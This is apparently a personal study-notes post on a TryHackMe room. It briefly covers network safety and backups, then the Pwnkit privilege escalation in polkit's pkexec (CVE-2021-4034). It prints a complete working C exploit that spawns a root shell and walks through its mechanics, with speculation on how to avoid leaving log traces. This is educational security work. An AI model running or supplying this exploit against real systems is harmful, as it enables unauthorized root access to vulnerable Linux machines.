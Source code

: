 # TryHackMe: Common Attacks & Pwnkit

## Common Attacks

### Public Network Safety

I really do wish that guides like this would stop highlighting VPNs -- their utility is just really unclear for most people anymore!

### Backups

"3, 2, 1" is a good mnemonic for backups:

* THREE or more copies
* TWO or more different storage devices
* ONE or more offsite backups

Though honestly, this is kind of a "minimum viable backup" strategy, since simply using a cloud service to mirror data between two devices would qualify! (Why? Working data counts as a copy...)

## Pwnkit (CVE-2021-4034)

### Exploitation

Quick-n-dirty Pwnkit exploit:

```c
/*
 * Proof of Concept for PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit’s pkexec (CVE-2021-4034) by Andris Raugulis <moo@arthepsy.eu>
 * Advisory: https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034
 */
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char *shell = 
	"#include <stdio.h>\n"
	"#include <stdlib.h>\n"
	"#include <unistd.h>\n\n"
	"void gconv() {}\n"
	"void gconv_init() {\n"
	"	setuid(0); setgid(0);\n"
	"	seteuid(0); setegid(0);\n"
	"	system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");\n"
	"	exit(0);\n"
	"}";

int main(int argc, char *argv[]) {
	FILE *fp;
	system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
	system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
	fp = fopen("pwnkit/pwnkit.c", "w");
	fprintf(fp, "%s", shell);
	fclose(fp);
	system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
	char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
	execve("/usr/bin/pkexec", (char*[]){NULL}, env);
}
```

The exploit is then as simple as `gcc $FILE -o exploit; ./exploit`. 

Here's what basically happens on execution:

* The exploit creates the path `GCONV_PATH=.` in the current directory and adds an invalid executable file to it.
* The exploit creates a second directory called `pwnkit` and sets up a malicious shared library designed to be loaded by GLib to translate system messages to the made-up character set "PWNKIT".
* The exploit calls `pkexec` with a NULL argument list (this bit is important, since we need the length of the argument list to be 0 -- so, not even to contain the name of `pkexec` itself) *but* with a correctly set up (albeit malicious) environment via `execve()`. Importantly, the first "variable" in the environment is actually the name of the (invalid) executable in the `GCONV_PATH=.` directory.
* Polkit just falls through the loop that it would normally use to walk through the passed-in arguments. This causes what would be pointing to an executable name to instead point to the first environment variable that's passed into `execve()`, which happens to be string `pwnkit`.
* Polkit looks up the malicious executable, finds it in `GCONV_PATH=./pwnkit` (because we set the PATH to that directory), and then tries to replace the executable name with this full path. *Except* that it's still writing to the first element of the environment, which causes `pwnkit` to be replaced by `GCONV_PATH=./pwnkit`.
* Polkit the proceeds to sanitize its environment. When it comes to the invalid SHELL variable this sanitization fails and Polkit throws an error and dies. *But!* Before dying, Polkit tries to *print* the error using a GLib function that dutifully attempts to translate the message into the "PWNKIT" character set. To figure out how to do this, modules are loaded from GCONV_PATH... And we've defined a malicious module to do this that cleans up the exploit files and spawns a root shell (since `pkexec` is SUID root).

A couple of points:

* This version of the exploit cleans up after itself, but does depend on generating a log message. The Qualsys advisory describing Pwnkit notes that "this vulnerability is also exploitable without leaving any traces in the logs, but this is left as an exercise for the interested reader." My guess is that to do this you'd need to reintroduce a different environment variable that `ld.so` normally strips when calling SUID binaries. (At least, I don't immediately see any place where Polkit is printing something that *isn't* a warning before it nukes its own environment, but then I'm not super-familiar with C and am only quickly skimming the `pkexec` source code.) *Or* perhaps you can do something with the permissions of the `GCONV_PATH=./pwnkit` file to trigger an error that would not be logged. (The trick here would be to do something so that `g_find_program_in_path()` resolves `GCONV_PATH=./pwnkit` but `access()` returns an error; it's not obvious to me how to do this though, or even if it *can* be done!)
* It took me a while to figure out why this exploit doesn't occur when `pkexec` is called without any arguments, since it will still fall through the initial argument-parsing loop. The reason this doesn't happen is that `argv[1]` is NULL in this case (the last element of `argv` is always the NULL pointer), so the first string of the environment isn't wrongly loaded *and* and entirely separate code path is triggered before the `GCONV_PATH=./pwnkit` variable would have gotten written into the environment. (It's worth noting that Debian derivatives seem to have removed the `sudo -s` like functionality from `pkexec` entirely, and just display a help message in this case.)

References:

* [arthepsy / CVE-2021-4034](https://github.com/arthepsy/CVE-2021-4034)
* [pwnkit: Local Privilege Escalation in polkit's pkexec (CVE-2021-4034)](https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt)
* [polkit / src / programs / pkexec.c (commit 539bf5dc)](https://gitlab.freedesktop.org/polkit/polkit/-/blob/539bf5dcca489534f42798a4500aca4b1a8ec8d0/src/programs/pkexec.c)

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> February 3, 2022
